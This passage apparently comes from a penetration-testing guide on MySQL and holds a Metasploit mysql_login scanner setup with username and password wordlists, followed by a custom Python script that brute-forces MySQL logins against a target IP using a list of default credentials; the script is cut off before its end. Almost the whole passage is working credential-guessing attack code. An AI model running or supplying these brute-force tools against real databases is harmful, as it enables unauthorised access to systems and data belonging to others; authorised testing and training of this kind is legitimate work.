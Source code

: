 #### Using Metasploit
```bash
# MySQL login scanner
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <target-ip>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set VERBOSE true
run
```

#### Custom Python Brute Force
```python
#!/usr/bin/env python3
import mysql.connector
import sys
from itertools import product

def mysql_brute_force(host, port, usernames, passwords):
    for username, password in product(usernames, passwords):
        try:
            print(f"Trying {username}:{password}", end=" ... ")
            
            connection = mysql.connector.connect(
                host=host,
                port=port,
                user=username,
                password=password,
                connect_timeout=5
            )
            
            if connection.is_connected():
                print("SUCCESS!")
                cursor = connection.cursor()
                cursor.execute("SELECT VERSION();")
                version = cursor.fetchone()
                print(f"MySQL Version: {version[0]}")
                connection.close()
                return username, password
            
        except mysql.connector.Error:
            print("Failed")
            continue
        except Exception as e:
            print(f"Error: {e}")
            continue
    
    return None, None

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 mysql_brute.py <target-ip>")
        sys.exit(1)
    
    target = sys.argv[1]
    port = 3306
    
    usernames = ['root', 'admin', 'mysql', 'user', '']
    passwords = ['', 'root', 'admin', 'mysql', 'password', '123456', 'toor']
    
    print(f"Starting MySQL brute force against {target}:{port}")
    username, password = mysql_brute_force(target, port, usernames, passwords)
    
    if username is not None:
```